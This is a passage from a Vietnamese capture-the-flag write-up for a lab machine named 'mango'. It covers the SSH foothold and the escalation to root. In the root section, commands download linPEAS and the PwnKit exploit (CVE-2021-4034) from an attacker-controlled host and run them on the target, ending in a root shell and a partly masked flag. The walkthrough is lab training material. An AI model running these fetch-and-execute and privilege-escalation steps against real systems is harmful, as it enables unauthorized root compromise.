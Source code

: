 ![image](https://hackmd.io/_uploads/H17rTE0jA.png)

## Post-Exploit
Có được credential ssh vào:

![image](https://hackmd.io/_uploads/BJt_ZVAs0.png)

Vì denied nên sử dụng account mango vào trước

![image](https://hackmd.io/_uploads/B1IlMECj0.png)

Thử switch user với admin lần nữa và lấy được user flag

![image](https://hackmd.io/_uploads/BJ8VzNAjC.png)

# Root flag
## Exploit
Tải linPeas về máy mục tiêu và chạy file
```
$ cd /tmp
$ curl http://10.10.14.93:8888/linpeas.sh -o li.sh
$ chmod +x li.sh
$ ./linpeas.s
```
Khi chạy LinPeas ta thấy mục tiêu dễ bị tấn công bởi **CVE-2021-4034** (PwnKit privesc). Đây là một lỗ hổng leo thang đặc quyền trong linux sử dụng [PwnKit](https://github.com/ly4k/PwnKit?ref=avitek.blog). 

![image](https://hackmd.io/_uploads/HylYoWWiC.png)

```
#Máy tấn công 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#Máy mục tiêu
$ curl http://10.10.14.93:8888/PwnKit -o PwnKit
$ chmod +x PwnKit
$ ./PwnKit

root@mango:/home/admin# id
uid=0(root) gid=0(root) groups=0(root),1001(admin)
```
## Post-Exploit
```
root@mango:/home/admin# cat /root/root.txt
cf3ba2eca9081a7624df*****
```

![image](https://hackmd.io/_uploads/BJQuUERjR.png)

